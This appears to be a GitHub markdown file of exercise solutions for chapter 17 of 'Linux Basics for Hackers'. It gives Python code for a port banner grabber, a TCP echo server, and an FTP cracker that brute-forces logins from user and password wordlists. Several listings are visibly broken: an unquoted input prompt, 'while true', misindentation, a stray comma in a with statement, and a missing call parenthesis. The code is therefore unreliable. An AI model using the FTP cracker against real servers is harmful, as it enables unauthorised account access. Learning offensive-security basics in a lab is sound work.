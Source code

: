 <!---
  Name          : Chapter_17.md
  Project       : Linux Basics for Hackers 1e
  Description   : Solutions to chapter 17 exercise problems
  Creation Date : 09 September 2020
  Author        : amenasec
  Link          : https://github.com/amenasec
--->


# Chapter 17 Exercise Problems

### 1.
Build the SSH banner-grabbing tool from Listing 17-5 and then edit it to do a banner grab on port `21`.

---

````python
#! /usr/bin/python3

import socket

Ports = [21]

for Port in Ports:

  s = socket.socket()

  print('This is the Banner for the Port')

  print(Port)

  s.connect(('192.168.1.191', Port))

  answer = s.recv(1024)

  print(answer)

  s.close()
````

---


### 2.
Rather than hardcoding the IP address into the script, edit your banner-grabbing tool so that it prompts the user for the IP address.

---

````python
#! /usr/bin/python3

import socket

Ports = [21, 22, 25, 3306]

IP = input(IP Adress: )

for Port in Ports:

  s = socket.socket()

  print('This is the Banner for the Port')

  print(Port)

  s.connect((IP, Port))

  answer = s.recv(1024)

  print(answer)

  s.close()
````

---


### 3.
Edit your `tcp_server.py` to prompt the user for the port to listen on.

---

````python
#! /usr/bin/python3

import socket

TCP_IP = '192.168.181.190'
TCP_PORT = input('Port: ')
BUFFER_SIZE = 100

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.bind((TCP_IP, TCP_PORT))
s.listen(1)

conn, addr = s.accept()
print('Connection address: ', addr)

while true:
  data = conn.recv(BUFFER_SIZE)
  if not data:
    break
  print('Received data: ', data)
    conn.send(data) #echo

conn.close
````

---


### 4.
Build the `FTPcracker` in Listing 17-7 and the edit it to use a wordlist for user variable (similar what we did with the password) rather than prompting the user for input.

---

````python
#! /usr/bin/python3

import ftplib

server = input('FTP Server: ')

Userlist = input('Path to User List > ')

Passwordlist = input('Path to Password List > ')

try:

  with open(Userlist, 'r'), as uw:

    for user in uw:

      try:

        with open(Passwordlist, 'r') as pw:

          for word in pw:

            word = word.strip('\r\n')

            try:

              ftp = ftplib.FTP(server)

              ftp.login(user, word)

              print('Success! The password is ', word)

            except ftplib.error_perm as exc:

              print('Still trying...', exc)

      except Exception as exc:

        print('Wordlist error: ', exc)

except Exception as exc:

  print('Wordlist error: ', exc)
````

---


### 5.
Add an except clause to the banner-grabbing tool that prints "no answer" if the port is closed.

---

````python
#! /usr/bin/python3

import socket

Ports = [21, 22, 25, 3306]

IP = input(IP Adress: )

for Port in Ports:

  s = socket.socket()

  print('This is the Banner for the Port')

  print(Port)

  try:
    s.connect((IP, Port))

    answer = s.recv(1024)

    print(answer)

    s.close()

  except:
    print('No answer')
````

---
